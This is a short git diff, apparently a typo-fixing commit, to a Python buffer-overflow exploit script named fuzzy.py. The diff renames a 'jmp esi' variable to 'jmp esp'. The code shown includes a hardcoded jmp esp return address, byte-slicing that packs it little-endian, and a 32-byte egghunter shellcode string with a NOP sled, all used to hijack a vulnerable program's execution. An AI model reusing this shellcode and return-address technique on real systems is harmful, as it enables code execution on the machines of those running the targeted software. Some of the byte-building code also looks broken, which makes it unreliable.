

typos,...typos everyhwhere

diff --git a/ue2/fuzzy.py b/ue2/fuzzy.py
@@ -4,10 +4,10 @@ import time
 #unique pattern
[1 lines of base64/hex data omitted]
 
-# jmp esi Address
+# jmp esp Address
 
 jmpESP = "77c9a320"
-PSEpmj = "\x"+jmpESI[7:] + "\x"+jmpESI[5:-2] + "\x"+jmpESI[3:-4] + "\x"+jmpESI[:-7]
+PSEpmj = "\x"+jmpESP[7:] + "\x"+jmpESP[5:-2] + "\x"+jmpESP[3:-4] + "\x"+jmpESP[:-7]
 
 # egghunter (32byte) plus nop(8byte) fuer 40 byte + jmpESP little endian
 egghunter = "\x90\x90\x90\x90\x90\x90\x90\x90\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
